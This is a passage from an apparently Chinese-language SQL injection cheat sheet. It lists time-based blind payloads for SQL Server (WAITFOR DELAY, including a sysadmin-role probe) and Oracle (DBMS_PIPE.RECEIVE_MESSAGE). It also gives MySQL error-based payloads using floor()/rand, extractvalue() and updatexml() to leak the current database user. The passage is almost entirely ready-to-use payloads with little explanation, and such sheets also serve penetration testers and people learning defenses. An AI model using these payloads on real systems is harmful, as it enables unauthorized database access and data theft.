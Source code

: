 **SQLServer:**

```
select * from mytest where ID=1 waitfor delay '0:0:10';     #产生10秒延时
使用语句:if ( select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--
```

[示例]( http://www.tiejiang.org/22272.html )

**Oracle:**

```
DBMS_PIPE.RECEIVE_MESSAGE('a',5)
使用语句：select decode(substr(user,1,1),'A',DBMS_PIPE.RECEIVE_MESSAGE('a',5) ,0) from dual
```

[示例]( https://www.cnblogs.com/Rakjong/p/10814727.html )

### 报错注入:

**Mysql**:

1、使用 floor() 

```
select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

![](media/2019-12-31-02.png)

2、使用 extractvalue() 

```
select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```

![](media/2019-12-31-01.png)

3、使用updatexml()

```
select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```

![](media/2019-12-31-03.png)
